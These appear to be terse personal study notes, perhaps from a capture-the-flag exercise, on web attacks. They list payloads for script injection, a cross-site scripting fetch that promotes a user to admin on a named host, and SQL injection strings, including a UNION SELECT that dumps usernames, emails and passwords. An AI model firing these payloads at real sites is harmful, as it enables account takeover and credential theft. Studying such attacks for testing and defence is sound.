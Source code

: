 * web
** url sanizataion
can inject javascript
<a href=""><script></script></a><a href="">Click here </a>
inject requests
** cross site scripting
<script>fetch("http://overflow.fail/tickets/admin/promote.php?username=alice")</script>
** cross site request forgery
send a url 
** sql
Where Group = ' ' OR ''='''

information_schema

secret_use
secret_user_37

' UNION SELECT * FROM information_scheme WHERE ''='


' UNION SELECT username,email,password FROM users WHERE ''='
